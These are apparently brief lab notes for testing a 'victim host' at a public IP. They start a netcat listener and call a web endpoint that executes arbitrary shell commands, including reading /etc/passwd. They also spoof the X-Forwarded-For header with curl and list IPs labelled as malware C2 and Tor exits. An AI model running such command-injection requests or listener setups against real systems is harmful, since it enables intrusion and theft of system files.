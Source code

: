 ** step on victim host 

*** nc -k -l 3333 &

*cmd 
http://3.96.209.91:5000/cmd?exec=cat%20/etc/passwd
http://3.96.209.91:5000/cmd?exec=ls+-la

*greeting
http://3.96.209.91:5000/greet

*client-ip
http://3.96.209.91:5000/client-ip

From anywhere
curl -H "X-Forwarded-For: 1.2.3.4" http://3.96.209.91:5000/client-ip

| **IP Address**   | **Reason / Source**                           |
| ---------------- | --------------------------------------------- |
| `45.227.253.55`  | Associated with malware C2 (AbuseIPDB)        |
| `185.220.101.1`  | Tor exit node (commonly flagged as malicious) |
| `1.3.3.7`        | Meme/red team testing IP                      |
| `222.186.30.50`  | Frequent brute-force attacker (honeypots)     |
| `89.248.167.131` | Blacklisted scanning IP (abuse reports)       |
| `23.129.64.50`   | Known Tor exit node, flagged in threat feeds  |
